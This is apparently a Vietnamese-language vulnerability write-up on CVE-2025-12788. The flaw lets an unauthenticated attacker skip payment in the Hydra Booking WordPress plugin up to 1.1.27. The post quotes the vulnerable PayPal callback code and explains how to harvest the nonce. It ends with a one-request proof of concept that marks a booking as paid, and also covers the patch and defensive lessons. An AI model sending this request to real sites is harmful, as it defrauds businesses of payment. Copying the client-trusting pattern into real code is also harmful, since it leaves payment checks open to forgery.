

# CVE-2025-12788 Analysis & POC


<!--more-->

## CVE & Basic Info
Plugin **Hydra Booking — Appointment Scheduling & Booking Calendar** cho **WordPress** bị **lỗ hổng thiếu xác minh thanh toán**, cho phép **bỏ qua thanh toán mà không cần xác thực** trong **tất cả các phiên bản từ trước đến và bao gồm 1.1.27**. Nguyên nhân là do plugin **chấp nhận dữ liệu xác nhận thanh toán do phía client kiểm soát** trong hàm **`tfhb_meeting_paypal_payment_confirmation_callback`** mà **không xác minh phía máy chủ với API của PayPal**. Điều này khiến **kẻ tấn công không cần đăng nhập** có thể **vượt qua yêu cầu thanh toán** và **xác nhận đặt lịch là đã thanh toán** mà **không có bất kỳ giao dịch thanh toán thực tế nào xảy ra**.

* **CVE ID**: [CVE-2025-12788](https://www.cve.org/CVERecord?id=CVE-2025-12788)
* **Vulnerability Type**: Bypass Vulnerability
* **Affected Versions**: <= 1.1.27
* **Patched Versions**: 1.1.28
* **CVSS severity**: Low (5.3)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Hydra Booking Plugin](https://wordpress.org/plugins/hydra-booking/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **Hydra Booking**:  
    * `1.1.27` – **vulnerable**  
    * `1.1.28` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ diff nào.

## Analysis 
Theo mô tả của CVE, lỗ hổng xảy ra do hệ thống cho phép người dùng **đặt lịch và được đánh dấu là đã thanh toán** mà **không có bất kỳ giao dịch thanh toán thực tế nào**, vì **không thực hiện xác minh phía máy chủ với API của PayPal**.

Để thanh toán bằng PayPal, ta truy cập `Hydra Booking` > `Settings` > `Integrations` và enable PayPal ở chế độ `SandBox` khi setup local.


Tiếp theo, ta cần setup giá cho booking tại:

```
http://localhost/wp-admin/admin.php?page=hydra-booking#/meetings/single/{meeting_id}/payment
```


Quy trình thanh toán của ứng dụng gồm 2 bước:
* **Booking (Đặt lịch)**
* **Payment (Thanh toán)**

### Booking
Click vào `Preview` trong meeting đã tạo để redirect sang trang booking.


Để xem trạng thái booking, ta truy cập:

```
http://localhost/wp-admin/admin.php?page=hydra-booking#/bookings/details/{booking_id}
```


Ở đây ta thấy Payment đang ở trạng thái `pending`, sau khi thanh toán trạng thái sẽ chuyển sang `complete`

### Payment
Plugin đã đăng ký action hook dành cho việc thanh toán:

```php {title="HydraBookingShortcode.php v1.1.27"}
add_action( 'wp_ajax_nopriv_tfhb_meeting_paypal_payment_confirmation', array( $this, 'tfhb_meeting_paypal_payment_confirmation_callback' ) );
```

`wp_ajax_nopriv_` là hook dành cho tất cả người dùng (kể cả chưa đăng nhập), khi có request đến endpoint `/wp-admin/admin-ajax.php` với param `action=tfhb_meeting_paypal_payment_confirmation` thì callback `tfhb_meeting_paypal_payment_confirmation_callback` được gọi để xử lý việc thanh toán.

```php {title="HydraBookingShortcode.php v1.1.27" hl_lines=[3,24,35,39] data-open=true}
public function tfhb_meeting_paypal_payment_confirmation_callback(){
    // Checked Nonce validation.
    if ( ! isset( $_POST['nonce'] ) || ! wp_verify_nonce( $_POST['nonce'], 'tfhb_nonce' ) ) {
        wp_send_json_error( array( 'message' => esc_html(__('Nonce verification failed', 'hydra-booking')) ) );
    }

    // Check if the request is POST.
    if ( 'POST' !== $_SERVER['REQUEST_METHOD'] ) {
        wp_send_json_error( array( 'message' => esc_html(__('Invalid request method', 'hydra-booking')) ) );
    }

    // Check if the request is not empty.
    if ( empty( $_POST ) ) {
        wp_send_json_error( array( 'message' => esc_html(__('Invalid request', 'hydra-booking')) ) );
    }
    $payment_details = isset( $_POST['payment_details'] ) ? $_POST['payment_details'] : array();
    $responseData = isset( $_POST['responseData'] ) ? $_POST['responseData'] : array();

    
    $payment_id = isset( $payment_details['id'] ) ? sanitize_text_field( $payment_details['id'] ) : '';
    $payer_id = isset( $payment_details['payer']['payer_id'] ) ? sanitize_text_field( $payment_details['payer']['payer_id'] ) : '';
    $hash = isset( $responseData['data']['hash'] ) ? sanitize_text_field( $responseData['data']['hash'] ) : '';
    $booking_id = isset( $responseData['data']['booking_id'] ) ? sanitize_text_field( $responseData['data']['booking_id'] ) : '';
    $attendee_id = isset( $responseData['data']['attendee_id'] ) ? sanitize_text_field( $responseData['data']['attendee_id'] ) : '';
    $meeting_id = isset( $responseData['data']['booking']['meeting_id'] ) ? sanitize_text_field( $responseData['data']['booking']['meeting_id'] ) : '';	
    $host_id = isset( $responseData['data']['booking']['host_id'] ) ? sanitize_text_field( $responseData['data']['booking']['host_id'] ) : '';	
    $customer_id = isset( $responseData['data']['booking']['attendee_id'] ) ? sanitize_text_field( $responseData['data']['booking']['attendee_id'] ) : '';	
    $payment_method = isset( $responseData['data']['booking']['payment_method'] ) ? sanitize_text_field( $responseData['data']['booking']['payment_method'] ) : '';	
    $total =  isset($payment_details['purchase_units'][0]['amount']['value']) ? sanitize_text_field( $payment_details['purchase_units'][0]['amount']['value'] ) : '';
    
    $attendee     = new  Attendees();

    $attendeedata = array(
        'id'             => $attendee_id,
        'payment_status' => 'Completed',
    );
    
    // attendee Update
    $attendeeUpdate = $attendee->update( $attendeedata );

    $charge = array(
        'payment_id'    => ! empty( $payment_id ) ? $payment_id : '', 
        'payer_id'      => ! empty( $payer_id  ) ? $payer_id  : '',
        'booking_id'      => ! empty( $booking_id  ) ? $booking_id  : '', 
        'attendee_id'      => ! empty( $attendee_id  ) ? $attendee_id  : '', 
    );
    // Data for Transactions Table
    $tdata        = array(
        'booking_id'         => $booking_id,
        'attendee_id'         => $attendee_id,
        'meeting_id'         => $meeting_id,
        'host_id'         => $host_id,
        'customer_id'         => $booking_id,
        'payment_method'         => $payment_method, 
        'total'         => $total,
        'transation_history' => wp_json_encode( $charge ),
        'status' => 'completed',
    );

    $Transactions = new Transactions();
    $Transactions = $Transactions->add( $tdata );

    // After Booking Hooks
    do_action( 'hydra_booking/after_booking_payment_complete', $attendeedata );

    // return success message
    $response['message'] = esc_html(__('Payment Completed Successfully', 'hydra-booking'));
    wp_send_json_success( $response );
    
}
```

Hàm thực hiện check nonce chống **CSRF**

```php
if ( ! isset( $_POST['nonce'] ) || ! wp_verify_nonce( $_POST['nonce'], 'tfhb_nonce' ) ) {
    wp_send_json_error( array( 'message' => esc_html(__('Nonce verification failed', 'hydra-booking')) ) );
}
```

Khi search với từ khóa `tfhb_nonce`


Có thể thấy nonce được tạo ra và gán vào đối tượng `tfhb_app_booking`, sau đó được trả về trong response khi người dùng truy cập trang booking.


Ta sử dụng giá trị này để bypass bước kiểm tra nonce.

Tiếp theo, hàm kiểm tra method có phải là **POST** và không rỗng thì cho phép thực hiện các logic phía sau

```php
if ( 'POST' !== $_SERVER['REQUEST_METHOD'] ) {
    wp_send_json_error( array( 'message' => esc_html(__('Invalid request method', 'hydra-booking')) ) );
}

// Check if the request is not empty.
if ( empty( $_POST ) ) {
    wp_send_json_error( array( 'message' => esc_html(__('Invalid request', 'hydra-booking')) ) );
}
```

Điểm đáng chú ý và nguy hiểm nhất nằm ở đoạn code này:

```php
$attendeedata = array(
    'id'             => $attendee_id,
    'payment_status' => 'Completed',
);

// attendee Update
$attendeeUpdate = $attendee->update( $attendeedata );
```

* Hàm trực tiếp cập nhật trạng thái thanh toán của attendee thành `Completed`.
* Chỉ cần có `attendee_id` gửi lên từ client => hệ thống sẽ coi như đã thanh toán thành công. (`responseData[data][attendee_id]={id}`)

`attendee_id` sẽ có dạng:

```
responseData[data][attendee_id]={id}
```

Bản vá `v1.1.28` đã **khắc phục triệt để lỗi bypass thanh toán** bằng cách thêm **xác minh phía máy chủ với PayPal** và **ràng buộc chặt chẽ dữ liệu booking trong hệ thống**, cụ thể:


* **Không còn tin dữ liệu từ client**: kiểm tra `booking_id`, `attendee_id`, `hash`, `payment_method` với dữ liệu trong DB.
* **Xác thực cấu hình PayPal hợp lệ** trước khi xử lý.
* **Gọi PayPal API để xác minh giao dịch thật**:

  * Lấy **access token** qua OAuth.
  * Truy vấn **order details** bằng `payment_id`.
  * Kiểm tra:

    * trạng thái order = **COMPLETED**
    * `payer_id` khớp
    * số tiền và tiền tệ khớp với booking
    * trạng thái capture = **COMPLETED** (nếu có)
* **Chỉ sau khi xác minh thành công mới cập nhật**:

  * `payment_status = Completed`
  * `booking status = confirmed`
  * ghi/ cập nhật transaction vào DB
* **Ngăn double payment**: nếu đã `Completed` thì không xử lý lại.

Nhờ đó, việc **giả mạo request từ client không còn đủ để xác nhận thanh toán**, và trạng thái “đã thanh toán” chỉ được thiết lập khi **PayPal xác nhận giao dịch hợp lệ phía server**.


## Flow


## Proof of Concept (PoC)
1. Thực hiện booking

2. Gửi request thanh toán:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
action=tfhb_meeting_paypal_payment_confirmation&nonce=8f5959255a&responseData[data][attendee_id]=5
```


## Conclusion

Lỗ hổng trong Hydra Booking v1.1.27 xuất phát từ **lỗi logic nghiệp vụ**, khi hệ thống **tin tưởng dữ liệu xác nhận thanh toán do client gửi lên** và cập nhật trạng thái thanh toán thành **Completed** mà **không xác minh giao dịch với PayPal phía máy chủ**. Do endpoint xác nhận thanh toán cho phép **truy cập không cần đăng nhập** và nonce có thể lấy trực tiếp từ trang booking, kẻ tấn công có thể **tự tạo request POST** để đánh dấu booking là đã thanh toán mà không cần thực hiện giao dịch thật.

Bản vá ở phiên bản v1.1.28 đã khắc phục bằng cách **xác minh giao dịch với PayPal API** và **đối chiếu dữ liệu booking trong cơ sở dữ liệu** trước khi cập nhật trạng thái thanh toán.

## Key Takeaways

* Không bao giờ **tin dữ liệu thanh toán từ phía client** để xác nhận giao dịch.
* Bắt buộc phải có **xác minh phía máy chủ với cổng thanh toán** trước khi cập nhật trạng thái.
* **Nonce chỉ chống CSRF**, không ngăn được việc lợi dụng logic nghiệp vụ.
* Các endpoint dùng `wp_ajax_nopriv_` cần được xem như **API công khai** và phải kiểm tra dữ liệu rất chặt chẽ.

## References
[Bypass Vulnerability](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress Hydra Booking Plugin <= 1.1.27 is vulnerable to Bypass Vulnerability](https://patchstack.com/database/wordpress/plugin/hydra-booking/vulnerability/wordpress-hydra-booking-plugin-1-1-27-missing-payment-verification-to-unauthenticated-payment-bypass-vulnerability) 

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2026-01-15-cve-2025-12788/  

